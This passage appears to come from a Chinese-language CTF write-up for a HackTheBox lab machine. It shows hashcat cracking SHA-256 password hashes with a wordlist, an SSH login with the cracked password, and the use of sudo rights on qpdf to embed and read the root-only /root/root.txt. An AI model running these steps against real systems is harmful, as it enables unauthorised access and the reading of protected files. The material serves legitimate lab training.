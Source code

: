 ```console
1420 JtR: dynamic_68 sha256(unicode($pass).$salt), HC: 1430  sha256($salt.unicode($pass)), HC: 1440  HMAC-SHA256 (key = $pass), HC: 1450 JtR: hmac-sha256
HMAC-SHA256 (key = $salt), HC: 1460 JtR: hmac-sha256 Cisco Type 7,  BigCrypt, JtR: bigcrypt
```

hashcat 爆破 hash：

```console
root@kali-server:~# cat capiclean.htb.hash
2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa

root@kali-server:~# hashcat -m 1400 -a 0 capiclean.htb.hash /usr/share/wordlists/rockyou.txt --show
0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:simple and clean
```

使用 consuela 用户密码进行 SSH 登录：

```console
root@kali-server:~# ssh consuela@capiclean.htb
consuela@iclean:~$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)
consuela@iclean:~$ ls
user.txt
consuela@iclean:~$ cat user.txt
3ef4e42f563ed0ca9321947a44853c9f
```

## Privilege Escalation

利用 [qpdf 命令](https://qpdf.readthedocs.io/en/stable/cli.html)进行 sudo 提权，读取任意文件：

```console
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
consuela@iclean:~$ sudo /usr/bin/qpdf --empty ./dump.pdf --qdf --add-attachment /root/root.txt --
consuela@iclean:~$ cat dump.pdf
%PDF-1.3
%����
%QDF-1.0
...
stream
e3abf93db24f17b12ff1dc82c7449d46
endstream
...
```
